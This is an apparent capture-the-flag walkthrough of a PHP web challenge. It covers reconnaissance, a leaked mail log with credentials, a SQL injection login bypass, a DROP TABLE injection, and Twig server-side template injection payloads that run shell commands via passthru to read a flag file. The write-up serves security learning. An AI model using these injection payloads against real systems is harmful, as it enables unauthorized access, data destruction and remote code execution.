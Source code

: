 ![](Pasted%20image%2020250113222430.png)

Two ports are open, port 22 and port 80. Whenever I see SSH on an assessment, I know I will want to brute force against it , test weak/default credentials, or possibly do a banner grab.

# RECONNAISSANCE TO-DO LIST
Next, I like to create a to-do list to stay organized during my testing. I may not need to complete the entire list, but it serves as a solid starting point for web application testing.

1. Check web application functionality
2. Check source code
3. Directory enumeration
4. Vhost fuzzing
5. /robots.txt

# WEB APPLICATION FUNCTIONALITY
Clicking around the website, I only have access to a login page and an Admin login page.
	![](Pasted%20image%2020250113223813.png)

Inspect the main page source code:
	![](Pasted%20image%2020250113223938.png)

After inspecting the source code, I found the existence of a _mail.log_ file.

# DIRECTORY ENUMERATION
![](Pasted%20image%2020250113232126.png)

# IMPORTANT RECON FINDINGS AND SUMMARY
- Login page at _/login.php_ which also includes access to Admin login page.
- _/composer.json_
	![](https://miro.medium.com/v2/resize:fit:569/1*-kWrGgWJBfj4cMDQnt4GHg.png)

Twig is one of the most common languages used in Server Side Template Injection (SSTI). This vulnerability can potentially allow for Remote Code Execution (RCE). By leveraging SSTI, an attacker can read files and execute commands if they find a way to input data into the system.

- */mail.log*
	![](Pasted%20image%2020250113232520.png)

This email provides usernames and credentials that can be used if the _‘users’_ table can be deleted. This points to SQL injection.
	![](Pasted%20image%2020250113232721.png)
- */phpmyadmin* & */php/myadmin/html/doc/index.html*
	![](Pasted%20image%2020250113233106.png)
This is another example of information disclosure. It is significant because phpMyAdmin relies on MySQL as its default database.
	![](Pasted%20image%2020250113233118.png)
## **SUMMARY OF RECON FINDINGS:**
- The use of Twig points to Server Side Template Injection (SSTI)
- phpMyAdmin running MySQL
- I have credentials that can be used if I can find a way to delete the ‘_users_’ table (SQL injection)



**_What is the flag value after logging into the admin panel?_**
I have already located the admin login page and obtained credentials. However, to make these credentials valid, I need to find a way to delete the ‘users’ table. I start by testing the functionality of the login page using Burp Suite, aiming to bypass authentication.
	![](Pasted%20image%2020250113234714.png)
In this case i will use a sql injection auth bypass wordlist for fuzzing https://.../swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt 
	![](Pasted%20image%2020250113234631.png)

```
' OR '1'='1'#;
```
![](Pasted%20image%2020250114004656.png)

Now i can update different values in the db table (where i will also inject drop table command in order to activate the above mentioned credentials)

```
' ; DROP TABLE users; --
```

![](Pasted%20image%2020250114005502.png)

Now we will log in the admin panel :)
	![](Pasted%20image%2020250114010005.png)

We still have discovered the SSTI template so we will proceed with that 
	![](Pasted%20image%2020250114010333.png)
We observe that first name is reflected on the main page:
	![](Pasted%20image%2020250114010439.png)![](Pasted%20image%2020250114010451.png)
Let s test for TWIG framework SSTI injection
	![](Pasted%20image%2020250114010712.png)
we are on the right track :) 
	![](Pasted%20image%2020250114010729.png)
we can inject&enumerate files directly trough the web app or we can try to obtain RCE via ssti injection in order to access the flag directory 
	![](Pasted%20image%2020250114011424.png)
```
{{['pwd',""]|sort('passthru')}}
```

![](Pasted%20image%2020250114012459.png)
		![](Pasted%20image%2020250114012508.png)
```
{{['ls -l /var/www/html',""]|sort('passthru')}}
```

![](Pasted%20image%2020250114012549.png)

```
{{['cat /var/www/html/flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt',""]|sort('passthru')}}
```

